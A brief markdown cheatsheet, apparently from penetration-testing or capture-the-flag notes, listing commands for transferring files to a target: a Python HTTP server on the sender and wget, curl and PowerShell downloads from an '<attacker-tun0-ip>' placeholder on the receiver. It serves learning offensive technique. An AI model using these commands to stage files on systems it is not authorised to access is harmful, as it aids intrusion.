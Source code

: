 #cheatsheet
## Transferring End
**Linux**
`cd /path/to/file`
`python3 -m http.server <port>`

**Windows**
?

## Receiving End
**Linux**
`wget http://<attacker-tun0-ip>:<port>/<filename> -O /tmp/<filename>`
*OR*
`curl http://<attacker-tun0-ip>:<port>/<filename> -o /tmp/<filename>`

**Windows**
`powershell -c "Invoke-WebRequest -Uri 'http://<attacker-tun0-ip>:<port>/<filename>' -OutFile 'C:\windows\temp\<filename>'"`
*OR*
`Invoke-WebRequest -Uri 'http://<attacker-tun0-ip>:<port>/<filename>' -OutFile 'C:\windows\temp\<filename>'`

